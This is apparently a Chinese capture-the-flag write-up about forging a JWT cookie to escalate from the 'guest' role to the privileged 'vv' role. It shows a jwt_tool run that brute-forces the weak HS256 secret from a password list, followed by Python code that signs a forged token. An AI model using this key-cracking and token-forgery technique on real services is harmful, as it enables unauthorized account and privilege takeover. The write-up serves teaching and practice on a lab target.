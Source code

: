 只有vv能抽到flag，那么就要想办法让服务器认为我是vv咯，想想服务器是如何获取我们身份的，一般会看看我们的cookie

```
cookie:

jwt=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJyb2xlIjoiZ3Vlc3QifQ.f6LlphhWFq9tWAIIapPp5992MPDPoybDUYV4HRcpWsU
```

提示的很明显是一串jwt，那么搜搜jwt是什么，搜完你就能发现，现在我是guest，如果role变成vv那应该是能抽出来了，但是jwt最后一串签名让我们不好更改前面的内容，如果只改了前面不改后面，服务器发现签名解密后与前面的不符合就会抛出错误，那么我们需要爆破密钥来更改后面的签名，利用jwt_tools爆破就行

```shell
weiwei@vv-laptop /m/d/C/W/jwt_tool (master) [1]> python jwt_tool.py eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJyb2xlIjoiZ3V
lc3QifQ.f6LlphhWFq9tWAIIapPp5992MPDPoybDUYV4HRcpWsU -C -d password.txt

        \   \        \         \          \                    \
   \__   |   |  \     |\__    __| \__    __|                    |
         |   |   \    |      |          |       \         \     |
         |        \   |      |          |    __  \     __  \    |
  \      |      _     |      |          |   |     |   |     |   |
   |     |     / \    |      |          |   |     |   |     |   |
\        |    /   \   |      |          |\        |\        |   |
 \______/ \__/     \__|   \__|      \__| \______/  \______/ \__|
 Version 2.2.7                \______|             @ticarpi

Original JWT:

[+] secret is the CORRECT key!
You can tamper/fuzz the token contents (-T/-I) and sign it using:
python3 jwt_tool.py [options here] -S hs256 -p "secret"
```

```python
import jwt
# 定义头部（Header）
header = {
    "alg": "HS256",
    "typ": "JWT"
}
# 定义负载（Payload）
payload = {
    "role": "vv"
}
# 密钥（Key）
secret_key = "secret"
token = jwt.encode(payload, secret_key, algorithm="HS256", headers=header)
print(token)
#eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJyb2xlIjoidnYifQ.JNGUsBcqTN5sBHETncoddUCd2ZdiQkyLF8qJ_yUYRNE
```

改一下cookie，再抽一发就能抽出啦